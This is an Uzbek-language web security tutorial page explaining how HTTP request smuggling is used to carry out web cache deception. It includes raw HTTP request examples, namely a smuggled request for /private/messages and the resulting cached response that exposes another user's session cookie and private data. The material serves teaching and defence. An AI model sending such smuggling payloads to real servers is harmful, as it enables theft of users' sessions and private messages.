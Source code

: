 ## <mark style="color:yellow;">Web Cacheni aldashda HTTP Request Smugglingdan foydalanish</mark> <a href="#web-cache-poisoning-ni-amalga-oshirish-uchun-http-request-smuggling-dan-foydalanish" id="web-cache-poisoning-ni-amalga-oshirish-uchun-http-request-smuggling-dan-foydalanish"></a>

Hali yana bir xujum turi mavjud bo'lib siz Web Cache Deception orqali HTTP Request Smuggling hujumning kuchini oshira olasiz. Ushbu xujum Web Cache Poisoning xujumiga o'xshab ishlaydi ammo boshqa boshqa maqsadlarda ishlatiladi.

{% hint style="warning" %}
**Web Cache Poisoning va Web Cache Deception orasida qanday farq bor ?**

* **Web Cache Poisoning**da Haker web sayt keshiga bir qancha zararli kontentni kiritadi va u kontent boshqa foydalanuvchilarga ham ta'sir o'tkazadi
* **Web Cache Deception**da Haker web saytdagi boshqa bir foydalanuvchining keshlariga bir qancha maxfiy kontentni kiritadi va uni keshdan oladi.
{% endhint %}

Bu usulda haker Request Smuggling qilib foydalanuvchiga tegishli bir qancha maxfiy ma'lumotlarni qabul qilmoqda. Masalan:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

Keyingi request boshqa foydalanuvchidan sessiya cookielarni va boshqa headerlarni o'z ichiga olgan holda smuggled requestga qo'shilib backend-serverga yuboriladi. Masalan:

```http
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

Backend server bu so'rovni oddiy so'rov kabi qabul qiladi va sizga javob qaytaradi. Ushbu URL da, foydalanuvchining shaxsiy xabarlari va session cookie lariga so'rov yuborilmoqda. Front-end serveri bu responseni ikkinchi requestdagi `/static/some-image.png` URL manziliga qarshi keshlaydi.

```http
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```

